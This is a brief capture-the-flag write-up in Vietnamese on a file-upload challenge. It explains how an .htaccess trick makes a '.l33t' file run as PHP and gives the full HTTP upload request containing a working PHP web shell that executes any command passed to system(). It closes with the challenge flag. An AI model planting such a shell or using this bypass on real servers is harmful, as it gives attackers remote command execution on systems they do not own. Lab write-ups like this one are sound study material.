

Ở challenges này lúc đầu mình upload shell thì không chạy, chắc vì nó chặn tất cả các file liên quan tới php

Sau khi research thì mình biết được kĩ thuật upload file + htaccess



.l33t từ giờ sẽ được hiểu như .php nên trình duyệt sẽ thực thi shell.l33t->shell.php

payload:
```
POST /upload.php HTTP/1.1
Host: 13.212.226.251:32522
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------14617569713886525883395149675
Content-Length: 543
Origin: http://13.212.226.251:32522
DNT: 1
Connection: close
Referer: http://13.212.226.251:32522/
Upgrade-Insecure-Requests: 1

-----------------------------14617569713886525883395149675
Content-Disposition: form-data; name="file"; filename="shell.l33t"
Content-Type: application/x-php

<<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
-----------------------------14617569713886525883395149675--
```
flag: CHH{hTaccess_1s_1NtEre$TiNG_ed98b764ce4ed4623bfe8f982057e8f8}